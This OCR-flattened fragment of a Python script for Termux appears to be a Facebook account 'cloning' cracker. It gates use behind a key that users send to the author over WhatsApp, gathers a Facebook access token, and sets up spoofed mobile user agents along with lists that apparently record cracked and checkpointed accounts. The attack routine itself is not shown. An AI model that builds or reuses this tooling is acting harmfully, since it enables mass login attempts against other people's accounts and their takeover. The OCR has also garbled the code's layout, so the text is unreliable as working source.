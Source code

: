 ("[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡")          kok=open('/data/data/com.termux/files/usr/bin/.akkkk-cov', 'w')          kok.close()          print ("")          print ("")          print ("     Copy Key And Sent Me WhatsApp Approvel Your Key ")          print ("[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡")          time.sleep(6)          os.system("xdg-open https://wa.me/qr/+919971945685")                r1=requests.get("https://raw.githubusercontent.com/Mafiyahunter/MafiyaHacker/main/Approval.txt").text      if key1 in r1:          R()      else:          os.system("clear")          logo()          print ("[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡")          print ("  Your Token Is Not Approved Already")          print ("[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡")          print ("          THIS IS YOUR KEY BRO")          print ("[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡")          print ("")          print ("          YOUR KEY : "+ak+key1)          print ("[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡")          print ("     Copy Key And Sent Me WP Approvel Your Key ")          print ("[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡")          time.sleep(3.5)          os.system("xdg-open https://wa.me/qr/+919971945685")  		  def R():  			os.system("clear")  			logo()   			  			print("
\033[1;93m[1] START  FILE CLONING  ")  			print(" \033[1;93m[2] WHATSAPP 03048379245")  			print (" \033[1;93m[0] EXIT")   			print (' \033[1;37m｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')  			key = input(" [*] \033[1;94mC H O O S E : ")  			print (' \033[1;37m｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')  			if key in [""]:  				print (" [!] INCORRECT OPTION")  				exit()  			elif key in ["1", "01"]:  				time.sleep(0.5)  				__crack__().plerr()  			elif key in ["2", "02"]:  				time.sleep(0.5)  				os.system('xdg-open https://wa.me/qr/+919971945685')  			  				login()  			elif key in ["0", "00" , "3"]:  				time.sleep(0.5)  				exit("\n [✓] Thank You So Much♥️\n")  	  ok = []  cp = []  id = []  user = []  num = 0  loop = 0  _silet_koceng_  = requests.Session()  url_mb = "https://mbasic.facebook.com"  bulan_ttl = {"01": "Januari", "02": "Februari", "03": "Maret", "04": "April", "05": "Mei", "06": "Juni", "07": "Juli", "08": "Agustus", "09": "September", "10": "Oktober", "11": "November", "12": "Desember"}  bulan_key = {"january": "January", "february": "February", "march": "March", "april": "April", "may": "May", "june": "June", "july": "July", "august": "August", "september": "September", "october": "October", "november": "November", "december": "December"}  header_grup = {"user-agent": "Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]"}  ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+'  ua_asus    = 'Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ua_huawei  = 'Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ua_vivo    = 'Mozilla/5.0 (Linux; Android 11; vivo 1918) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ua_oppo    = 'Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.105 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ua_samsung = 'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]'  ua_windows = 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ua_realme = 'Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, seperti Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3'  P = '\x1b[1;97m' # PUTIH  M = '\033[0;91m' # MERAH   H = '\033[1;92m' # HIJAU   K = '\033[1;91m' # KUNING   B = '\033[0;94m' # BIRU   U = '\033[0;95m' # UNGU   O = '\033[0;96m' # BIRU MUDA  N = '\033[0m'	# WARNA MATI   def login():  	os.system("rm -rf access_token.txt");logo()  	tok = input(' [*] Enter Your Token : ')  	try:  			u = requests.get('https://graph.facebook.com/me?access_token='+tok).text  			u1 = json.loads(u)
name = u1['name']  			ts = open('access_token.txt', 'w')  			ts.write(tok)  			ts.close()  			print("\n\n[*] Login Successful as " + name )  			time.sleep(1)  			R()  	except KeyError:  			print('\n\n[*] Token Expired ')  			time.sleep(1)  			login()     def banner():  	logo()  def hasil(ok,cp):  	if len(ok) != 0 or len(cp) != 0:
